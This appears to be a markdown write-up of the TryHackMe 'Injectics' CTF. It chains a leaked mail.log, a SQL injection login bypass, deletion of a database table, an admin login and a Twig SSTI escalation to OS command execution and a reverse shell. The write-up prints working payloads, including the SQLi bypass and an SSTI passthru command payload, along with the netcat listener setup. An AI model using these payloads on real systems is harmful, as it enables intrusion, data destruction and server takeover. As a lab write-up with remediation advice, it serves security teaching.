









# Injectics — Web Application Pentesting CTF

TryHackMe CTF demonstrating web enumeration, information disclosure, SQL injection, authentication bypass, database manipulation, Server-Side Template Injection (SSTI), and command execution.

---

## Overview

**Platform:** TryHackMe  
**Room:** Injectics  
**Category:** Web Application Pentesting / Injection Attacks  
**Type:** CTF  
**Target OS:** Linux

This assessment involved enumerating a web application, identifying exposed sensitive information, bypassing a client-side SQL injection filter, manipulating the application's database, obtaining administrator access, and exploiting a Server-Side Template Injection vulnerability to achieve operating-system command execution and retrieve the final flag.

---

## CTF Objectives

- Obtain the flag after logging into the administrator panel.
- Retrieve the contents of the hidden text file in the `flags` directory.

---

# 1. Reconnaissance

I started by performing a full TCP port scan to identify exposed services.

```bash
nmap -p- -T4 <TARGET_IP>
```

### Open Ports

| Port   | Service |
| ------ | ------- |
| 22/tcp | SSH     |
| 80/tcp | HTTP    |

I then performed service and default-script enumeration against the discovered ports:

```bash
nmap -sV -sC -p 22,80 -oN nmap_injectics.txt <TARGET_IP>
```

The scan identified:

* OpenSSH 8.2p1
* Apache HTTP Server 2.4.41
* Ubuntu/Linux host
* Web application title: `Injectics Leaderboard`
* `PHPSESSID` cookie without the `HttpOnly` flag



---

# 2. Manual Web Enumeration

I manually browsed the application while continuing automated enumeration.

The application exposed several PHP endpoints, including login and dashboard functionality.

I also checked:

```text
/robots.txt
```

but did not find anything useful.

During source-code inspection, I discovered the following HTML comment:

```html
<!-- Mails are stored in mail.log file-->
```

This indicated that an application log file might be directly accessible through the web server.



---

# 3. Sensitive Information Disclosure — mail.log

I requested:

```text
/mail.log
```

The file was accessible and contained an internal email from the development team.

The email revealed information about the application's `InjecticsService`, including:

* The service monitors the database.
* It restores default credentials when the `users` table is deleted or corrupted.
* The service runs approximately every minute.
* Default credentials were disclosed.

The disclosed credentials were:

```text
superadmin@injectics.thm : superSecurePasswd101
dev@injectics.thm        : devPasswd123
```



### Security Impact

Exposing `mail.log` resulted in disclosure of:

* Internal application architecture
* Database behaviour
* Default credentials
* Privileged account information

This significantly reduced the effort required to obtain administrative access.

---

# 4. Directory Enumeration

While manually browsing the application, I noticed that several endpoints used the `.php` extension.

I therefore performed directory and file enumeration using Gobuster with common extensions:

```bash
gobuster dir -u http://<TARGET_IP> \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
-x text,bak,php,html
```

### Interesting Findings

```text
login.php
index.php
logout.php
dashboard.php
functions.php
conn.php
adminLogin007.php
flags/
phpmyadmin/
server-status
```

Some of these endpoints were not directly useful during exploitation, but enumeration helped map the application's attack surface.



---

# 5. Login Functionality Analysis

I intercepted the normal login request using Burp Suite.

The login form submitted credentials to:

```http
POST /functions.php
```

with:

```text
username=test
password=test
function=login
```

Example request:

```http
POST /functions.php HTTP/1.1
Host: <TARGET_IP>
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest

username=test&password=test&function=login
```

Invalid credentials resulted in:

```json
{"status":"error","message":"Invalid email or password"}
```

---

# 6. Client-Side SQL Injection Filter

I inspected the JavaScript responsible for the login form.

The application implemented a client-side blacklist:

```javascript
const invalidKeywords = ['or', 'and', 'union', 'select', '"', "'"];

for (let keyword of invalidKeywords) {
    if (username.includes(keyword)) {
        alert('Invalid keywords detected');
        return false;
    }
}
```

The application then sent the credentials to:

```text
/functions.php
```

The important observation was that the blacklist was implemented entirely within client-side JavaScript.

Client-side validation should not be relied upon as a security control because an attacker can intercept and modify requests before they reach the server.

---

# 7. SQL Injection Authentication Bypass

Using Burp Suite, I bypassed the client-side restrictions and tested the server-side login functionality.

The following payload successfully bypassed authentication:

```text
s' || 1=1 -- -
```

This resulted in access to the application dashboard.



### Why the Filter Was Ineffective

The application attempted to block common SQL injection keywords:

```text
or
and
union
select
'
"
```

However, the blacklist did not account for alternative SQL syntax such as:

```text
||
```

This demonstrates why keyword-based SQL injection blacklists are unreliable.

### Impact

Successful SQL injection allowed authentication to be bypassed and provided access to authenticated functionality.

---

# 8. Database Manipulation

The authenticated dashboard exposed functionality that allowed database-related data to be modified.

Because `mail.log` had previously revealed that `InjecticsService` monitored the `users` table and restored it when deleted, I investigated whether the database could be manipulated through the application.

Using Burp Suite, I modified the relevant request to delete the `users` table.


After forwarding the request, the application displayed:

```text
Seems like database or some important table is deleted.
InjecticsService is running to restore it.
Please wait for 1-2 minutes.
```



This confirmed that the database manipulation was successful and that the recovery service described in `mail.log` was active.

---

# 9. Administrator Access

After waiting for the restoration process to complete, I navigated to:

```text
/adminLogin007.php
```

I used the administrator credentials discovered in `mail.log`:

```text
superadmin@injectics.thm
superSecurePasswd101
```

The credentials successfully authenticated to the administrator dashboard.



### Attack Chain So Far

```text
Information Disclosure
        ↓
Default Credentials
        ↓
SQL Injection
        ↓
Authentication Bypass
        ↓
Database Manipulation
        ↓
InjecticsService Recovery
        ↓
Administrator Access
```

---

# 10. Profile Functionality

The administrator dashboard provided access to:

```text
/update_profile.php
```

The profile functionality allowed modification of the administrator's first name.

I first changed the value to:

```text
abcdefg
```

The modified value was reflected on the dashboard:

```text
Welcome, abcdefg!
```

This confirmed that user-controlled input was being stored and subsequently rendered by the application.

---

# 11. Server-Side Template Injection

I then tested whether the reflected value was being interpreted as a server-side template expression.

The following value was submitted:

```jinja2
{{2*2}}
```

The dashboard rendered:

```text
4
```



This demonstrated that the application was evaluating the supplied template expression rather than treating it purely as text.

The syntax was consistent with a Twig/PHP templating environment.

### Vulnerability

**Server-Side Template Injection (SSTI)**

### Potential Impact

Depending on the template environment and available functions, SSTI can potentially allow an attacker to:

* Execute template expressions
* Access application objects
* Interact with server-side functionality
* Execute operating-system commands

---

# 12. Server-Side Command Execution

After confirming SSTI, I tested whether server-side PHP functionality could be invoked.

The following payload successfully executed the `id` command:

```jinja2
{{['id',""]|sort('passthru')}}
```

The resulting output confirmed operating-system command execution.


The exploitation chain was now:

```text
User-controlled profile input
        ↓
SSTI
        ↓
PHP function invocation
        ↓
passthru()
        ↓
OS command execution
```

---

# 13. Reverse Shell

To obtain an interactive shell, I prepared a Python reverse-shell script and hosted it from the attacking machine.

The payload was served using:

```bash
python3 -m http.server 80
```

A Netcat listener was started on the reverse-shell port:

```bash
nc -lvnp 443
```

The SSTI command-execution primitive was then used to retrieve and execute the hosted script.

After correcting the Python interpreter used by the reverse-shell script from `python` to `python3`, the reverse shell successfully connected.

---

# 14. Flag Retrieval

With command execution established, I enumerated the filesystem and located the hidden flag file within the `flags` directory.

The contents of the file provided the final CTF flag.



---

# Attack Chain Summary

```text
Nmap
  ↓
Web Enumeration
  ↓
Source Code Inspection
  ↓
mail.log Disclosure
  ↓
Default Credentials Discovered
  ↓
Client-Side SQLi Filter Identified
  ↓
SQL Injection Authentication Bypass
  ↓
Dashboard Access
  ↓
Database Manipulation
  ↓
users Table Deleted
  ↓
InjecticsService Restores Database
  ↓
Admin Login
  ↓
Profile Update
  ↓
SSTI
  ↓
PHP passthru()
  ↓
OS Command Execution
  ↓
Reverse Shell
  ↓
Flag Retrieval
```

---

# Vulnerabilities Identified

| Vulnerability                    | Impact                                          |
| -------------------------------- | ----------------------------------------------- |
| Exposed `mail.log`               | Sensitive information and credential disclosure |
| Client-side SQLi filtering       | Easily bypassable protection                    |
| SQL Injection                    | Authentication bypass and database manipulation |
| Dangerous database functionality | Destructive database operations                 |
| Default credentials              | Privileged account compromise                   |
| Server-Side Template Injection   | Server-side code execution                      |
| OS command execution             | Potential full server compromise                |
| Missing `HttpOnly` cookie flag   | Increased exposure of session cookies           |

---

# Key Takeaways

### Client-side security controls are not sufficient

Security controls implemented exclusively in JavaScript can be bypassed by directly modifying HTTP requests.

### SQL injection should be prevented with parameterized queries

Keyword blacklists are unreliable because SQL often provides alternative syntax that can achieve the same result.

### Information disclosure can enable further exploitation

The exposed `mail.log` provided credentials and internal information that directly contributed to the compromise.

### Follow application behaviour

The message generated after deleting the `users` table confirmed the behaviour described in the leaked email and helped validate the database manipulation attack.

### SSTI can become a critical vulnerability

The simple expression:

```jinja2
{{2*2}}
```

confirmed template evaluation. Further testing demonstrated that the vulnerability could be escalated to operating-system command execution.

---

# Remediation

## Protect sensitive files

Sensitive logs such as `mail.log` should not be stored inside the web server's document root.

## Use parameterized SQL queries

User-controlled values should be passed through prepared statements rather than concatenated into SQL queries.

## Perform validation server-side

Security controls must be enforced by the backend rather than relying on JavaScript.

## Remove dangerous database functionality

Applications should not expose arbitrary SQL execution or allow user-controlled requests to execute destructive database statements.

## Eliminate default credentials

Privileged default credentials should never be exposed or automatically recreated.

## Prevent SSTI

User-controlled input must be treated strictly as data and must never be interpreted as template code.

## Restrict dangerous PHP functions

Functions such as:

```text
passthru()
system()
exec()
shell_exec()
```

should be restricted or disabled where they are not required.

## Secure session cookies

Session cookies should use appropriate security attributes, including:

```text
HttpOnly
Secure
SameSite
```

where applicable.

---

# Tools Used

* Nmap
* Gobuster
* Burp Suite
* Browser Developer Tools
* Netcat
* Python HTTP Server
* Linux command-line utilities

---

# Skills Demonstrated

* Network reconnaissance
* Service enumeration
* Web application enumeration
* Manual source-code inspection
* Information disclosure analysis
* Burp Suite request interception
* SQL Injection
* Authentication bypass
* Database manipulation
* SSTI identification
* Twig/PHP exploitation
* OS command execution
* Reverse shells
* Linux enumeration
* CTF methodology

---

## Disclaimer

This write-up documents exploitation performed against an intentionally vulnerable TryHackMe CTF environment for educational purposes.

Do not reproduce these techniques against systems without explicit authorization.
